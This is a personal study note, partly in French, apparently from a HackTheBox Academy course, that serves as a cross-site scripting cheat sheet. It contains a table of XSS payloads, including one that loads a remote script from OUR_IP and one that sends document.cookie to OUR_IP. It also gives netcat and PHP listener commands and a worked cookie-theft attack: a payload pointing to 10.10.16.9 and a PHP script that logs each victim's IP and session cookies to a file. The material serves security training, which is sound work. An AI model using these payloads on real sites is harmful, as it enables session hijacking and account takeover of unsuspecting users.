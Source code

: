 ```yaml
---
id: XSS
created_date: 18/04/2024
updated_date: 18/04/2024
type: note
---
```


#  XSS
- **🏷️Tags** :  #04-2024 #explotation #XSS #payloads #php #scripting 

## 📝 Notes

| Code                                                                                          | Description                       |     |
| --------------------------------------------------------------------------------------------- | --------------------------------- | --- |
| **XSS Payloads**                                                                              |                                   |     |
| `"><script>alert(window.origin)</script>`                                                     | Basic XSS Payload                 |     |
| `'><script>alert(window.origin)</script>`                                                     | Basic XSS Payload                 |     |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |     |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |     |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |     |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |     |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |     |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |     |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |     |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |     |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |     |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |     |
| **Commands**                                                                                  |                                   |     |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |     |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |     |
| `sudo php -S 0.0.0.0:80 `                                                                     | Start `PHP` server                |     |


### Utilisation d'un payload XSS avec un script PHP pour récuperer les cookies d'une session

Utilisation d'un **payload XSS** appelant un fichier **js** avec lui même une requête sur les cookies de la sessions et appel d'un fichier **php** pour récuperer au clair les informations dans un txt.

#### Payload avec connexion à notre propre serveur php
```bash
"><script src=http://10.10.16.9/script.js></script>
```

#### deuxième payload ( requête pour récupération des cookies )
```javascript

?>new Image().src='http://10.10.16.9/index.php?c='+document.cookie

```

#### PHP script
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```

#### Utilisation des entrées directe :
- Code Javascript<script></script>
- Code de style CSS<style></style>
- Champs de balise/attribut<div name='INPUT'></div>
- Commentaires HTML<!-- --> 